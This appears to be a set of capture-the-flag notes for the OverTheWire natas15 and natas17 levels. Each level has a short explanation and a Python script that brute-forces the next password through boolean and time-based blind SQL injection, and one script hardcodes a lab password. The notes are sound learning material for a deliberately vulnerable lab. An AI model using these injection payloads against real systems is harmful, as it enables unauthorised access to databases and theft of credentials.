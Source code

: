 # CTF Notes

### natas15
From the natas15 challenge. This is an SQL bruteforce where if the character exsists in the password, it will print "exists". Because of the output we can check whether or not we are correct through checkin if "exists" is in the content body of the response. using `requests` this can be done quite easily. The SQL query uses LIKE BINARY which is case-sensitive in order to get the correct values.

The second for loop in the script cycles 32 times (typical length of the password) and matches the exact places. %{}% matches if present in any position. {}% matches if its at the beginning (in this case to brute force the correct order). Therefore %{} would match if character was at the end.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""

for char in chars:
    input_data = {'username' : 'natas16" and password LIKE BINARY "%{}%" # '.format(char)}
    r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = input_data)
    if "exists" in r.text:
        filtered += char

print(filtered)

for _ in range(0, 32):
    for char in filtered:
        input_data = {'username' : 'natas16" and password LIKE BINARY "{}%" # '.format(passwd + char)}
        r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = input_data)
        if "exists" in r.text:
            passwd += char
            print(passwd)
            break
```

### natas17

source: https://www.abatchy.com/2016/12/natas-level-17
From the natas17 challenge. Bruteforce password through SQL injection though there is not output. If there is no output use the `AND sleep()` command in the query to control the response time. If the query was correct i.e char is in there, the `sleep()` will trigger and the response time will be slower. This can be checked in python using `requests`.

```py
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
auth_user = "natas17"
auth_pass = "<censored>"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""


for char in chars: # checks which characters are in the password
    # if the query is successful it will add a 1 second relay
    input_data = {"username": 'natas18" and password LIKE BINARY "%{}%" AND sleep(1) # '.format(char)}
    r = requests.post(url, auth=HTTPBasicAuth(auth_user, auth_pass), data=input_data)
    if "01." in str(r.elapsed): # "01." specifies that the response took 1 second, from sleep(), can increase if network is slower
        print(r.elapsed, char)
        filtered += char

```

